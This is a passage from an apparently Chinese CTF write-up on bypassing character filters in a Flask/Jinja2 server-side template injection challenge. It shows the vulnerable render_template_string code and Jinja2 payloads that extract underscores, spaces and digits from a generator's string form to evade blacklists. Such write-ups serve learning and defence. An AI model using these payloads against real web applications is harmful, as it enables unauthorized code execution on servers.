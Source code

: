     else:
        name = 'wendell'
    template = '''

 <div class="center-content">
 <p>Hello, %s</p>
 </div>
 
 
''' % (name)
    return render\_template\_string(template)

if \_\_name\_\_ == "\_\_main\_\_":
    app.run(host='0.0.0.0', port=5000)

可以看到题目过滤的死死地，最关键是把attr也给过滤了的话，这就很麻烦了，但是我们还可以用过滤器进行绕过。

在存在ssti的地方执行如下payload：

{% set org = ({ }|select()|string()) %}{{org}}
\# 或 {% set org = ({ }|select|string) %}{{org}}

[![](https://xzfile.aliyuncs.com/media/upload/picture/20210525174701-275b3a1e-bd3e-1.png)
](https://xzfile.aliyuncs.com/media/upload/picture/20210525174701-275b3a1e-bd3e-1.png)

可以看到，我们得到了一段字符串：`<generator object select_or_reject at 0x7f06771f4150>`，这段字符串中不仅存在字符，还存在空格、下划线，尖号和数字。也就是说，如果题目过滤了这些字符的话，我们便可以在 `<generator object select_or_reject at 0x7f06771f4150>` 这个字符串中取到我们想要的字符，从而绕过过滤。

然后我们在使用list()过滤器将字符串转化为列表：

{% set orglst = ({ }|select|string|list) %}{{orglst}}

[](https://xzfile.aliyuncs.com/media/upload/picture/20210525174701-2780bf78-bd3e-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20210525174701-2780bf78-bd3e-1.png)

如上图所示，反回了一个列表，列表中是 `<generator object select_or_reject at 0x7f06771f4150>` 这个字符串的每一个字符。接下来我们便可以使用使用pop()等方法将列表里的字符取出来了。如下所示，我们取一个下划线 `_`：

{% set xhx = (({ }|select|string|list).pop(24)|string) %}{{xhx}}    \# _

![](https://xzfile.aliyuncs.com/media/upload/picture/20210525174701-27a4f47e-bd3e-1.png)

同理还能取到更多的字符：

{% set space = (({ }|select|string|list).pop(10)|string) %}{{spa}}    \# 空格
{% set xhx = (({ }|select|string|list).pop(24)|string) %}{{xhx}}    \# _
{% set zero = (({ }|select|string|list).pop(38)|int) %}{{zero}}    \# 0
{% set seven = (({ }|select|string|list).pop(40)|int) %}{{seven}}    \# 7
......

这里，其实有了数字0之后，我们便可以依次将其余的数字全部构造出来，原理就是加减乘除、平方等数学运算，如下示例：

{% set zero = (({ }|select|string|list).pop(38)|int) %}    \# 0
{% set one = (zero**zero)|int %}{{one}}    \# 1
{%set two = (zero-one-one)|abs %}    \# 2
{%set three = (zero-one-one-one)|abs %}    \# 3
{% set five = (two*two*two)-one-one-one %}    \# 5
\#  {%set four = (one+three) %}    注意, 这样的加号的是不行的,不知道为什么,只能用减号配合abs取绝对值了
......

